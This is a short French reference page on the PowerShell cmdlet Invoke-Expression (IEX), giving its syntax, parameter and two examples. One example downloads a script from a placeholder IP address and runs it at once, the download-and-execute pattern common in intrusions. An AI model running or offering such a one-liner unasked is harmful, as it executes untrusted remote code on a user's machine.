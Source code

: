 ```yaml
---
title: Invoke-Expression
description: Alias de IEX, exécute des commandes ou des expressions sur l'ordinateur local.
published: true
date: 2025-05-04T14:56:34.987Z
tags: windows, commande, powershell
editor: markdown
dateCreated: 2024-10-06T10:13:16.438Z
---
```


# Introduction

Alias de IEX, Invoke-Expression est une applet PowerShell qui permet d'exécuter des commandes ou des expressions sur l'ordinateur local.

# Syntaxe

`Invoke-Expression <[commande]|[-command <commande>]>`

# Paramètres

| Paramètre             | Description                    |
| --------------------- | ------------------------------ |
| `-command <commande>` | Défini la commande à exécuter. |

# Exemples

Récupère le script distant et l'exécute sur l'ordinateur local.
`Invoke-Expression (iwr 'http://10.10.10.10/ExternalScript.ps1')`

Exécute la commande "ps"
`"ps" | Invoke-Expression`

# Voir aussi

Documentation officielle:
https://learn.microsoft.com/fr-fr/powershell/module/microsoft.powershell.utility/invoke-expression

